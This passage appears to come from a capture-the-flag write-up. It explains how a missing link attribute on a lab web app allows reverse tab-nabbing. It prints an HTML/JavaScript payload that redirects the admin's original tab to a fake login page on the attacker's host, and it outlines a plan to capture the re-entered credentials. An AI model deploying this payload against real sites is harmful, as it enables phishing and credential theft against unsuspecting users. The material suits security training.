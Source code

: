 ![](/img/image-20220113073246052.png)

Looking at the profile links on Developer, the `rel` is missing,
suggesting this link is vulnerable to tab-nabbing:

![](/img/image-20220113073356495.png)

#### Strategy

The goal here will be to host a page so that when the admin clicks on
the link, it open in a new tab that's now visible. The JavaScript in
that tab will reverse tab-nab the original tab to send it to another
page I'm hosting that looks like the login page for Developer. When the
admin is done reading my page and comes back, they'll think they've been
logged out for some reason, and log in again, where I capture the creds.

#### Generate Tab-Nabber

I'll grab the tab nabber page from the 0xprashant post and edit it to
point to the login path on my host:



    .md>
      <body>
        <h2>Challenge Writeup</h2>
        <p>This challenge was quite well designed! Good job by the developers at Developer for this one. I would definitely recommend it to my friends. It required critical thinking and tools like Ghidra to get the job done</p>
        <script>
        if (window.opener) window.opener.parent.location.replace('http://10.10.14.6/accounts/login/');
        if (window.parent != window) window.parent.location.replace('https://10.10.14.6/accounts/login/');           
        </script>
      </body>
    <.md>



I also added a silly generic writeup to give the admin something to
read.

#### Generate Login / Server

I'll grab the source from the login page and save it as
`loginform.md`. The HTML form `action` points to `/accounts/login/`,
Now I'll write a quick Flask server to handle both the writeup and the
fake login:
